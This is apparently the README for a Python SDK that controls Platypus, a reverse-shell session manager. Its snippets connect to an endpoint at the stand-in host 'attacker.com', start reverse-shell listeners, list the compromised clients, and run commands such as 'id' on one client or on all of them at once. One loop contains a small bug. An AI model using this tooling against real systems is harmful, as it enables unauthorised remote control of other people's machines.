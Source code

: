 # Platypus-Python

Python SDK for reverse shell sessions manager [Platypus](https://github.com/WangYihang/Platypus)

## Install

```bash
pip install platypus-python
```

## Usage

### Connect to Platypus endpoint
```python
import platypus_python as pp

p = pp.Platypus("attacker.com", 7331)
```

### Create a reverse shell server

```python
server = p.create_server("0.0.0.0", 13339)
```

### Get all available listening servers

```python
servers = p.get_servers()
for server in servers():
    print(server)
```

### Stop a reverse shell server

```python
server = servers[0]
server.delete()
```

### Get all online Clients of a server

```python
server = servers[0]
clients = server.get_clients()
for client in clients:
    print(client)
```

### Execute a command on a client

```python
client = clients[0]
client.system("id")
```

### Execute a command on all clients of a server

```python
server = servers[0]
server.system("id")
```

### Execute a command on all clients

```python
p.system("id")
```